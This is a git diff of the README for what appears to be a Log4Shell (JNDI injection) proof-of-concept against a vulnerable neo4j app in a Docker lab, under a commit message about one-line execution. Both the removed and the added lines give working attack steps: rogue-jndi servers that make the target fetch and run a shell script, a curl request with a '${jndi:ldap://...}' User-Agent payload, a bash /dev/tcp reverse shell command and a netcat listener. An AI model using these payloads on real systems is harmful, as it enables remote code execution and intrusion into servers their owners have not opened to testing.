

Modification to oneline execution

diff --git a/README.md b/README.md
@@ -8,16 +8,10 @@ Please do not rely on your java version to be safe and upgrade neo4j package !
 
 
 ## play 
-- one terminal : launch the vulnerable app : ./start_vuln_server.sh
-- other terminal :
-  - find ip of the vulnerable APP : `sudo docker inspect -f '{{range.NetworkSettings.Networks}}{{.IPAddress}}{{end}}' container_name_or_id`
-  - the host ip is from the container perspective. It will be the .1, if the container ip is 172.28.0.2, the ip to give is 172.28.0.1
-  - launch the exploit : `./exploit.sh <host_ip>` 
-	- launch a rogue server https://github.com/veracode-research/rogue-jndi with --command "curl -q http://ip:port/reverse.sh -o /tmp/reverse_shell.sh" to download the reverse
-        - launch an http server to download the reverse shell 
-	- launch another rogue server to start the reverse shell execution https://github.com/veracode-research/rogue-jndi with --command "bash /tmp/reverse_shell.sh"
-	- (i don't know yet why chaining multiple commands in only one rogue server don't work)
-
-- other terminal trig the exploit : `curl 127.0.0.1:8081 -H 'User-Agent: ${jndi:ldap://<ip>:4445/o=tomcat}' && sleep 1 && curl 127.0.0.1:8081 -H 'User-Agent: ${jndi:ldap://<ip>:4446/o=tomcat}''
+- launch the vulnerable app : `./start_vuln_server.sh`
+- launch exploit :  `./exploit.sh <rogueserver_ip> <rogueserver_port> <cmd>`
+  - example : ./exploit.sh 172.28.0.1 4445 'bash -i >& /dev/tcp/172.28.0.1/4444 0>&1'
+- trig the exploit and start listener : 
+  - example : `( sleep 2 && curl 127.0.0.1:8081 -H 'User-Agent: ${jndi:ldap://172.28.0.1:4445/o=tomcat}' ) & nc -nlvp 4444 `'
 
 ![](./poc.png)
